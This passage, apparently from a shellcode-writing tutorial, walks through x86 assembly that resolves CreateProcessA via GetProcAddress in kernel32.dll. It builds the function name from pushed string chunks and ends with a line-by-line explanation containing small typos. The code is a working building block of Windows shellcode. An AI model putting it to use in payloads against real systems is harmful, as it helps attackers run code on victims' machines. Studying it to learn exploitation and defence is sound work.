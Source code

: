 
<b><span style="color:green;font-size:26px">Get CreateProcessA using GetProcAddress</span></b>

<p align="justify">
At this point we will search for the address of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function. 
</p>

<ul>
    <li> <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code></li>
</ul>

<p align="justify">
The following assembly code will be used in order to find the address of the <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function
</p>

```c
;; Find the address of CreateProcessA
ADD  ESP,0x14                        ;Clean stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x64                       ;EBX = 0x190
MOV  EDX,[ESP+EBX]                   ;EDX has the address of GetProcAddress
PUSH 0x61614173                      ;"aaAs"
SUB  word [ESP + 0x2], 0x6161        ;"As" ( remove "aa")
PUSH 0x7365636f                      ;"seco"
PUSH 0x72506574                      ;"rPet"
PUSH 0x61657243                      ;"aerC"
PUSH ESP                             ;"CreateProcessA" - 2nd argument of GetProcAddress
MOV  EBP, ESI                        ;move the kernel32.dll to EBP
PUSH EBP                             ;kernel32.dll address - 1st argument of GetProcAddress
CALL EDX                             ;execute GetProcAddress
PUSH EAX                             ;address of CreateProcessA
LEA EBP, [EAX]                       ;EBP now points to the address of CreateProcessA
```

<p align="justify">
At the first line we are aligning the stack. Then, at lines 2-5 we are getting the address of the <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> function. At lines 6-11, we are pushing onto the stack,  the second argument of <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> function in reverse order, which sets the string <b>"CreateProcessA"</b>. In order to do that, we are first pushing the string <b>"As"</b>, then <b>"seco"</b>, then <b>"rPet"</b> and finally the string <b>"aerC"</b>. Next, <code  style="background-color: lightgrey; color:black;"><b>esp</b></code> regsister points at the top of the stack at the begining o the string <b>"CreateProcessA"</b>. At line 12, we are moving the <code  style="background-color: lightgrey; color:black;"><b>kernel32.dll</b></code> address that was saved inside <code  style="background-color: lightgrey; color:black;"><b>esi</b></code>, into the <code  style="background-color: lightgrey; color:black;"><b>ebp</b></code> register. Then at line 13, we are pushing the first argument of <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> into the stack. At line 14, we are calling <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code>. Then, at line 15, the returned address of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function will be saved into the stack. Then the address of <code  style="background-color: lightgrey; color:black;"><b>eax</b></code> will be loaded into the <code  style="background-color: lightgrey; color:black;"><b>ebp</b></code>, which will point to the address of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> register. 
</p>
